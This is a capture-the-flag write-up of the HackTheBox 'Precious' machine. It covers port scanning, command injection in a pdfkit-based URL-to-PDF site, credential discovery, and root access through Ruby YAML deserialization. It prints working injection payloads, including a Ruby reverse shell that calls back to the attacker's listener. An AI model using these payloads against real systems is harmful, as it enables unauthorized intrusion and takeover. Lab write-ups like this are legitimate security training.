

[Easy] Precious

Compromised on February 8, 2023Written on February 5, 2024
Precious is my sixth machine to compromise on HackTheBox. This Linux machine features a Command Injection vulnerability, hardcoded and plaintext credentials, and a YAML deserialization vulnerability in a Ruby script.
Enumeration
Nmap
Let's start with an Nmap scan.
nmap 10.10.11.189 -p- --min-rate=5000We see that port 80 and 22 are open. Let's get more details and their version by using Nmap scripts.
nmap 10.10.11.189 -p80,22 -sC -sV --min-rate=5000It looks like port 22 is using regular OpenSSH 8.4p1 and port 80 is an Nginx server.
Website - TCP Port 80
If we try to navigate to http://10.10.11.189, it'll redirect us to precious.htb and prompt an error. We'll add precious.htb to our /etc/hosts file and link it to 10.10.11.189.
echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hostscat /etc/hostsNavigating to http://10.10.11.189 will now load the website.
Judging by the contents of the page, users will enter a URL to a webpage and convert it to a PDF file. Let's test this by first setting up an HTTP server using Python.
python3 -m http.serverThen we'll enter our IP address and port and submit. It looks like we got a request from the server.
This must be vulnerable to Command Injection. I suspect that a shell command is being used to send a request to the URL, like cURL or wget, and transformed to a PDF.
To verify my suspicion, I escaped a bash command at the end of the URL which should execute when the web app processes the URL. The result of the bash command should appear on my HTTP server as a request. Turns out, I was right. The system executed the "id" command and confirmed the Linux user's identity.
http://10.10.14.3:8000/test$(id)Exploit - Command Injection
Since the target user's username is "ruby", it's safe to assume that the web application is using Ruby. We'll use a Ruby command to establish a reverse shell. First, let's set up our listener.
nc -lvnp 4444Then we'll make the target machine execute a Ruby command to send a reverse shell to our listener.
http://10.10.14.3:8000/test$(ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.3",4444))')Unfortunately, this doesn't work.
I decided to do some more enumeration. The web application's functionality actually downloads a PDF file. Maybe we can find what software the web application is using to create it's PDFs. I downloaded a PDF and used exiftool to look into the PDF's metadata. It looks like the web application is using pdfkit v0.8.6.
cd Downloadsexiftool 9fb2drjc77s6coj55fr3lu1hk70vpnhl.pdfSearching online, we do find documentation on an Command Injection vulnerability. According to this documentation, if there's a URL encoded character (which we didn't have originally) and a shell command substitution string, the full command will execute.
I added "%20" just before my shell command substitution, and it worked.
http://10.10.14.3:8000/test%20$(ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.3",4444))')Privilege Escalation - Henry
I'll upgrade my simple shell to a fully interactive TTY by using Python.
python3 -c "import pty; pty.spawn('/bin/bash')";Searching around the file system, the user flag isn't in ruby's home directory. Although, there's another user named "henry".
cd /homels -laHenry's credentials can be found in ruby's home directory within hidden files.
cd rubyls -lacd .bundlels -lacat config
Trying to SSH into the target machine as Henry, the credentials work.
ssh henry@10.10.11.189We got user flag.
cat user.txtPrivilege Escalation - Root
Once logged in, I checked if Henry can run anything as root. Henry can run a ruby script as root.
sudo -lTaking a look at the script, a line stands out to me which reads and loads a file.
cat /opt/update_dependencies.rbWhen viewing Ruby documentation about YAML.load(), we see a security note about arbitrary code execution.
We can easily find code that exploits YAML.load(), taking advantage of YAML deserialization in Ruby.
I've copied and pasted the code into a file named dependencies.yml. Since the code in /opt/update_dependencies.rb does not use an absolute path to locate the file dependencies.yml, the program will search for the file in whatever directory we're in. Running the file, we confirm the identity of the root user.
sudo -u root /usr/bin/ruby /opt/update_dependencies.rbI'll update the code so it'll run /bin/bash as root.
cat dependencies.ymlNow if we run it, we'll get a root shell.
sudo -u root /usr/bin/ruby /opt/update_dependencies.rbGot root flag.